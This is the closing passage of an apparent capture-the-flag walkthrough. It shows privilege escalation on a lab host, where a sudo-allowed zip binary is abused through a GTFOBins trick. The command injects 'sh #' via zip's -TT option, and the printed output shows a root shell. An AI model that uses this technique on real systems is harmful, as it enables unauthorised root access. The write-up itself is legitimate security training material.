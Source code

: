 <img src="./images/GTFOBins_sudo_zip.png" alt="GTFOBins entries for zip" width="800"/>


We can now copy the hint line by line into `jeanpaul`'s command line to get root
access. We hold back the 3rd line `sudo rm $TF` until we have logged out as
root.



```
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
#
```



**Mission accomplished.**




